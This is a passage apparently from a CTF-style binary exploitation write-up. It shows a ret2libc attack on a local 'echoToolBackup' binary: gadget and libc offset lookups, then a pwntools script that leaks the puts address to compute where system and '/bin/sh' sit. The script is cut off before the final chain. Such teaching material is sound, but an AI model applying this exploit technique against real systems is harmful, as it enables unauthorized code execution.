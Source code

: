 However, due to some stack alignment issues in calling system, sometimes it is required to include an additional `ret` gadget, which can be found as easily

```assembly
$ ROPGadget --binary ./echoToolBackup | grep "ret"
0x00000000004004be : ret
```

To calculate offsets in libc.so.6, you can use both `readelf` and `strings`.

```bash
# Finding which libc is used
$ ldd ./echoToolBackup 
        linux-vdso.so.1 (0x00007ffcb81b0000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f65d104d000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f65d143e000)

# puts offset
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "puts"
   ...
   422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5

# system offset
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
  ...
  1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

# /bin/sh\x00" offset
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1b40fa /bin/sh
```

Now we have enough to construct the chains and the following exploit script is produced

```python
from pwn import *
import sys

exe = "./echoToolBackup"
elf = ELF(exe)
proc = remote('127.0.0.1', 6666)

pop_rdi = 0x4006d3
ret	= 0x4004be

# Libc offsets
system_offset = 0x04f4e0
binsh_offset  = 0x1b40fa
puts_offset   = 0x080a30

# puts@PLT(puts@GOT)
payload  = "a" * 12
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts']) 
payload += p64(0x400607) # main
proc.sendline(payload)

data = proc.recv()
data = data.splitlines()[2]
data = unpack(data, 'all')

# Calculating offsets
libc_base = data - puts_offset
system    = libc_base + system_offset
binsh     = libc_base + binsh_offset

```